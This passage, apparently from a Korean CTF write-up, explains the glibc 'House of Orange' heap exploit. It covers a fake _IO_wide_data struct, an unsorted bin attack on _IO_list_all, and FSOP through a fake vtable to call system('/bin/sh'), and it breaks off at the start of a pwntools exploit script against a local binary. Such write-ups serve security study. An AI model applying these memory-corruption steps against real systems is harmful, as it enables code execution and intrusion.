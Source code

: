 4. Fake struct _IO_wide_data 를 만들어준다.   
    - _IO_write_ptr > _IO_write_base
```c
//_IO_OVERFLOW를 실행시키기 위한 조건

#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
       || (_IO_vtable_offset (fp) == 0
           && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
                    > fp->_wide_data->_IO_write_base))
#endif
```
```c
/* Extra data for wide character streams.  */
struct _IO_wide_data
{
  wchar_t *_IO_read_ptr;    /* Current read pointer */
  wchar_t *_IO_read_end;    /* End of get area. */
  wchar_t *_IO_read_base;   /* Start of putback+get area. */
  wchar_t *_IO_write_base;  /* Start of put area. */
  wchar_t *_IO_write_ptr;   /* Current put pointer. */
  wchar_t *_IO_write_end;   /* End of put area. */
  wchar_t *_IO_buf_base;    /* Start of reserve area. */
  wchar_t *_IO_buf_end;     /* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  wchar_t *_IO_save_base;   /* Pointer to start of non-current get area. */
  wchar_t *_IO_backup_base; /* Pointer to first valid character of
                   backup area */
  wchar_t *_IO_save_end;    /* Pointer to end of non-current get area. */
 
  __mbstate_t _IO_state;
  __mbstate_t _IO_last_state;
  struct _IO_codecvt _codecvt;
 
  wchar_t _shortbuf[1];
 
  const struct _IO_jump_t *_wide_vtable;
};
```
5. Unsorted bin attack
    - free chunk의 bk에 &_IO_list_all - 0x10 값을 덮어쓴다
    - free chunk를 smallbin[4]에 등록하기 위해 사이즈를 바꾼다. (90 ~ 98)
    - 새로운 힙을 할당한다.

6. File-stream oriented programming
    - IO_list_all에 main_arena + 88의 값을 덮어쓴다. (unsorted bin attack)
    - malloc 메모리 손상이 발상하여 _IO_flush_all_lockp 함수를 실행한다.
    - _IO_flush_all_lockp은 IO_list_all에(main_arena + 88)를 이용한다.
    - 'fp = fp→_chain' 때문에 fp가 Fake _IO_FILE_plus 구조체로 변경된다.
    - _IO_flush_all_lockp() 함수는 _wide_data에 _IO_write_ptr > _IO_write_base조건이 충족하면 _IO_OVERFLOW 함수를 호출한다.
    - 함수가 호출될 때 fake vtable을 이용하므로 system함수를 실행시킬 수 있으며 인자로 들어가는 fp를 "/bin/sh"로 맞춰주면 exploit에 성공한다.
    
```python
from pwn import *

s = process('./houseoforange')

def build(namelen, name, price, color):
	s.sendlineafter('Your choice : ','1')
	s.sendlineafter('Length of name :',namelen)
	s.sendafter('Name :', name)
	s.sendlineafter('Price of Orange:',price)
	s.sendlineafter('Color of Orange:',color)

def edit(namelen, name, price , color):
```